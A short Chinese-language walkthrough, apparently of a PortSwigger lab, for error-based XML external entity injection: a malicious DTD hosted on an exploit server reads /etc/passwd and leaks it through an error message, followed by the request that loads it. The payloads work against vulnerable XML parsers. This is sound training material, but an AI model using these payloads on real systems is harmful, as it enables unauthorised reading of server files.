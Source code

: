 ## 1. 攻击服务器部署恶意dtd文件

poc内容：

```javascript
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- 定义名为的XML参数实体file，其中包含/etc/passwd文件的内容。

- 定义一个名为的XML参数实体eval，其中包含另一个名为的XML参数实体的动态声明error。该error实体将通过加载一个不存在的文件名称中包含的价值进行评估file实体。

- 使用eval实体，这将导致error执行实体的动态声明。

- 使用error实体，以便通过尝试加载不存在的文件来评估其值，从而产生一条错误消息，其中包含不存在的文件的名称，即文件的内容/etc/passwd。



## 2. xxe，访问部署的dtd文件

poc:

```javascript
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://ac751ffa1eab9ea0802029da01870006.web-security-academy.net/exploit.dtd"> %xxe; ]>
<stockCheck><productId>%xxe</productId><storeId>1</storeId></stockCheck>
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/XXE/images/E38B32AC9B2B48A0B0FD3B35DA4EB5FEclipboard.png)

